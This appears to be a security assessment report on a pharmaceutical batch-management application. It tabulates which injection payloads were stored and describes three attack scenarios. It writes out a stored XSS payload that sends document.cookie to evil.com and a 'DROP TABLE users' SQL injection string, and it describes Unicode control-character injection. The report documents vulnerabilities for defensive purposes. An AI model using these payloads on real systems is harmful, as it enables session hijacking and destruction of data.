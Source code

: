 ## VULNERABILITY ANALYSIS

### Input Validation Assessment

| Payload Type | Injection Status | Storage Status | Execution Risk | Severity |
|--------------|------------------|----------------|----------------|----------|
| XSS Scripts | ✅ Injected | ✅ Stored | 🔴 High | Critical |
| SQL Injection | ✅ Injected | ✅ Stored | 🟢 Low | Medium |
| Template Injection | ✅ Injected | ✅ Stored | 🟡 Medium | High |
| NoSQL Injection | ❌ Blocked | ❌ Rejected | 🟢 None | Low |
| Unicode/Control | ✅ Injected | ✅ Stored | 🟡 Medium | Medium |
| Path Traversal | ✅ Injected | ✅ Stored | 🟢 Low | Medium |
| XXE Injection | ❌ Blocked | ❌ Rejected | 🟢 None | Low |

### Critical Findings Summary

**🔴 NO INPUT SANITIZATION**: Application accepts and stores malicious payloads without filtering
**🔴 XSS VULNERABILITY**: Complete lack of HTML/JavaScript sanitization
**🔴 DATA CORRUPTION**: Malicious payloads permanently stored in pharmaceutical database
**🟡 DATABASE PROTECTION**: ORM prevents SQL injection execution but stores payloads

---

## ATTACK SCENARIOS

### Scenario 1: Stored XSS Attack on Pharmaceutical Data
1. **Attack**: Inject XSS payloads into batch information
2. **Payload**: `<script>fetch('http://evil.com/steal?data='+btoa(document.cookie))</script>`
3. **Impact**: When administrators view batch data, session cookies sent to attacker
4. **Evidence**: Successfully stored XSS payload in batch ID #6
5. **Result**: Administrative account compromise

### Scenario 2: Database Pollution Attack
1. **Attack**: Inject SQL injection strings into all text fields
2. **Payload**: `'; DROP TABLE users; --` in product names
3. **Impact**: Database corruption, data integrity loss
4. **Evidence**: SQL payloads successfully stored in quality test records
5. **Result**: Regulatory compliance violations due to corrupted audit trail

### Scenario 3: Supply Chain Data Corruption
1. **Attack**: Inject control characters and unicode into critical fields
2. **Payload**: Unicode right-to-left override characters in batch IDs
3. **Impact**: Display corruption makes batch identification impossible
4. **Evidence**: Control characters stored in test records
5. **Result**: Supply chain tracking failures

---